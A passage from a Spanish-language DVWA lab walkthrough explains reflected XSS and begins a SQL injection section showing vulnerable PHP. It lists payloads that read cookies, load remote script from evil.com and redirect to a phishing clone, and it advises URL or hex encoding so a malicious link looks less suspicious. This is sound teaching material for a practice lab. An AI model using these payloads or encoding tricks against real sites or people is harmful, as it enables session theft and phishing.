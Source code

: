 Como podemos observar, sólamente comprueba y obtiene el valor del parámetro `name` pasado mediante peticiones `GET` y lo añade directamente entre etiquetas `<pre>`.

No es difícil imaginar que si le pasamos cualquier código `HTML` lo podremos visualizar con el formato especificado, dado que no comprueba si la entrada consta de caracteres especiales como `<` o `>`:

Varios ejemplos:

- `<b>XSS</b>`
- `<h1>XSS</h1>`
- `<marquee>XSS</marquee>` (Este es visualmente bonito)

Pero más allá de formatear texto de maneras vistosas, los ataque XSS sirven para ejecutar código javascript o modificar el comportamiento de la página.

Si introducimos código entre etiquetas `<script>`, podemos obtener resultados muy interesantes:

- `<script>alert('XSS')</script>`
- `<script>alert(domain.cookie)</script>` (obtener las cookies de un usuario)
- `<script src="http://evil.com/payload.js"></script>` (bypassear el límite de caracteres del payload pudiendo ejecutar código remoto)

Además también puede ser usado como vector de ataque en campañas de `phishing`, redireccionando a un usuario de la página real a un clon propiedad del atacante:

- `<script>window.location="http://evil.com/"</script>`

---

Algo muy interesante de esto, es que vimos los datos de entrada vienen dados mediante el parámetro `name` provisto en la URL, por lo que podremos realizar estos ataques sólamente pasándole el link malicioso a nuestra víctima:

        https://dwva.local/vulnerabilities/xss_r/?name=<script>alert("HACKED")</script>

Aún así cualquiera podría sospechar de este link, por lo que lo recomendable sería usar un **URL Encoder**:

        https://dwva.local/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28%22Hacked%22%29%3C%2Fscript%3E

Aún así, sigue siendo un link bastante raro por poder leerse palabras como `script`, `alert` o `HACKED`, por lo que, personalmente, me gusta codificar los *payloads* en hexadecimal:

        https://dwva.local/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%48%41%43%4b%45%44%22%29%3c%2f%73%63%72%69%70%74%3e

### 🕵️‍♂️ SQLi

Esta vez atacaremos la página mediante `SQL Injection`, lo que nos permitirá acceder a la base de datos.

Para ello, nos iremos a la pestaña `SQL Injection` dentro de `DVWA` y, como de costumbre, nos fijaremos primero en el código `php` que sostiene la página:

```php
<?php    

if(isset($_GET['Submit'])){
    
    // Retrieve data
    
    $id = $_GET['id'];

    $getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
    $result = mysql_query($getid) or die('<pre>' . mysql_error() . '</pre>' );

    $num = mysql_numrows($result);

    $i = 0;

```